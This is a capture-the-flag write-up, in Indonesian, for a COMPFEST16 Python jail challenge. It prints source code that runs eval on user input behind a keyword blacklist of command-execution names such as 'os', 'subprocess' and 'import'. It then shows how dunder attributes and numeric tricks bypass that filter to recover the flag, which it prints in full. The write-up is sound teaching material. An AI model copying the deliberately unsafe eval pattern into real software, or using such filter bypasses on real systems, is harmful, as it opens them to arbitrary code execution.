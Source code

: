 # [500 pts] Definitely Safe Safe Program
### Category: Miscellaneous

**Deskripsi:**
> I have made sure to filter my user inputs! Surely you can't get the flag...  
>   
> md5("COMPFEST16{flag_sha256(flag)[:10]}") = 950ff9f6286154973ea41436b0320001.  
> md5 ini digunakan untuk memvalidasi apakah flag yang kalian dapat sudah sesuai atau belum, jika kalian mengkomputasi md5 dari flag yang
> kalian dapatkan dan hasilnya tidak sesuai dengan yang diberikan, maka flag kalian belum benar.  
>   
> Author: Zanark  
>   
> nc challenges.ctf.compfest.id 20004

**main.py:**
```python
"""
Welcome to my first Python program!!!

This program will be able to execute most Python
statements just like the REPL, but I have made sure
to sanitize the input so you won't be able to hack
my computer!!!

But... if you somehow managed to hack my computer
here is a gift from me COMPFEST16{PART1_
"""

__file__ = "Nothing here..."

def safe(s):
    blacklist = ["os", "system", "\\", "(", ")", "io", "subprocess", "Popen", "=", "0", "1", "2", "+", "3", "4", "5", "PART2}","6", "7", "8", "9", "import", "-", "globals", "locals", "vars"]
    return not any(c in s for c in blacklist)


if __name__ == "__main__":
    while True:
        cmd = ascii(input(">>> "))
        if not safe(cmd):
            print("Not Allowed!!!")
            continue
            
        result = eval(eval(cmd))
        print(str(result)[:25])
```

### Solusi: 
Challenge memberi program yang bekerja seperti python console namun dengan beberapa filter yang diberikan pada input. Program juga membatasi hanya maksimal 25 karakter output saja yang bisa terlihat.

Tujuan kita disini yaitu mengambil flag yang dibagi menjadi 2 bagian. Karena program bekerja seperti python console, akan kita gunakan "[dunder](https://www.geeksforgeeks.org/dunder-magic-methods-python/)".

Bagian pertama flag terletak pada comment diawal program, dan bagian kedua di dalam list 'blacklist' pada fungsi safe().

Untuk bagian pertama, perhatikan bahwa flag terletak pada comment pada bagian awal program. Comment pada bagian awal program atau suatu fungsi akan dianggap sebagai documentation oleh python.

Comment tersebut disebut juga sebagai 'docstring' yang dapat dibaca melalui attribut [\_\_doc__](https://www.geeksforgeeks.org/python-docstrings/).
```python
>>> __doc__

Welcome to my first Pyth
```

Perhatikan bahwa flag bagian pertama terletak pada bagian akhir docstring. Sehingga kita dapat menggunakan index -1 untuk mengambil secara reverse (didapat bagian akhir terlebih dahulu).

Kita tidak bisa langsung melakukan index karena karakter numeric dan karaker '-' di filter. Maka yang akan kita gunakan yaitu 'False' dan '~'.
```python
~0 == -1
False == 0
~False == -1
__doc__[::~False] == __doc__[::-1]
```

**Note:** '~' adalah operator unary invert.

Sehingga untuk mendapatkan flag bagian 1 dapat digunakan command:
```python
>>> __doc__[::~False]

rts3tYb_x3dn1{61TSEFPMOC
```
Bagian pertama flag akan terbalik, sehingga perlu di reverse kembali.  

> Flag 1: **COMPFEST16{1nd3x_bYt3str**

Untuk flag bagian kedua berada di dalam elemen ke 16 list 'blacklist', yang terletak pada fungsi safe().

Karena kita perlu melihat nilai dalam variabel pada fungsi safe(), maka pertama kita ubah safe() menjadi codeobject dengan '\_\_code__'.

Kemudian dari codeobject yang dihasilkan, kita gunakan 'co_consts' untuk melihat nilai-nilai yang digunakan fungsi.

Untuk informasi lebih lanjut mengenai '\_\_code__' dan 'co_consts': https://docs.python.org/3/reference/datamodel.html
```python
>>> safe.__code__.co_consts
(None, ('os', 'system', '
```

Terlihat bahwa isi list 'blacklist' terletak pada index pertama tuple yang di-output, sehingga bisa kita tambahkan index 1 dengan menggunakan nilai 'True'.
```python
>>> safe.__code__.co_consts[True]
('os', 'system', '\\', '(
```

Selanjutnya karena flag bagian kedua berada pada index ke 16, perlu kita tambahkan index 16 pada tuple yang di-output.

Untuk meng-bypass filter karakter numeric, maka dapat kita gunakan binary string dan xor operator untuk mendapat nilai 16:
```python
46 ^ 62 == 16

b'.'[0] == ord('.') == 46

b'>'[0] == ord('>') ==  62

b'.'[0] ^ b'>'[0] == 16

b'.'[False] ^ b'>'[False] == 16
```

Sehingga command yang akan diberikan yaitu:
```python
>>> safe.__code__.co_consts[True][b'.'[False] ^ b'>'[False]]
1ng_g1v3s_1nT_e732bbe217}
```

> Flag 2: **1ng_g1v3s_1nT_e732bbe217}**

Sehingga flag akhir dapat didapatkan dengan menggabunkan flag 1 dan flag 2.

> Flag: **COMPFEST16{1nd3x_bYt3str1ng_g1v3s_1nT_e732bbe217}**
